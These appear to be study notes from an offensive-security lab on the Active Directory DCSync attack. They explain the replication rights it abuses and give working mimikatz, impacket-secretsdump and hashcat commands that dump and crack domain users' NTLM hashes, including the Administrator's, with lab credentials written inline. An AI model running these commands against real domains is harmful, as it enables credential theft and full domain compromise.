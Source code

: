 - DRS (_Directory Replication Service_) Remote Protocol
    
    - Uses _replication_ to synchronize these redundant domain controllers
    - A domain controller may request an update for a specific object, like an account, using the IDL_DRSGetNCChanges API.
    - the domain controller receiving a request for an update does not check whether the request came from a known domain controller. Instead, it only verifies that the associated SID has appropriate privileges. If we attempt to issue a rogue update request to a domain controller from a user with certain rights it will succeed.
- Need to have:
    
    - _Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set_ rights.
        
    - By default, members of the Domain Admins, Enterprise Admins, and Administrators groups have these rights assigned.
        
    - _dcsync_ attack
        
        - If we obtain access to a user account in one of these groups or with these rights assigned where we can impersonate a domain controller

Example (w/ Mimikatz (Windows)):

- Set up:
    - RDP CLIENT75 as jeffadmin with the password BrouhahaTungPerorateBroom2023!.
    - jeffadmin is a member of the Domain Admins group
- Start:
    - `cd C:\Tools\`
    - `.\mimikatz.exe`
    - `lsadump::dcsync /user:corp\dave`
        - **lsadump::dcsync** -> module
        - **/user:** -> domain\user
        - output -> NTLM hash
- Crack the hash
    - `hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
    - output -> Flowers1
- We can now obtain the NTLM hash of any domain user account of the domain **corp.com**
    - Get Admin hash
        - `lsadump::dcsync /user:corp\Administrator`
        - output -> Admin NTLM hash

Example (w/ _impacket-secretsdump_ (Linux)):

- Start:
    
    - `impacket-secretsdump -just-dc-user maria corp.com/mike:"Darkness1099\!"@192.168.200.70`
        - **-just-dc-user** -> tgt user
        - provide creds of user with rights
            - **domain/user:password@ip.**
        - uses _DRSUAPI_ the Microsoft API implementing the Directory Replication Service Remote Protocol.
- [Note]:  
    - Need a user that is a member of (Domain Admins, Enterprise Admins, or Administrators_- Needs_ Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set* rights.  
    └─$ xfreerdp /cert-ignore /u:mike /d:corp.com /p:Darkness1099! /v:192.168.200.75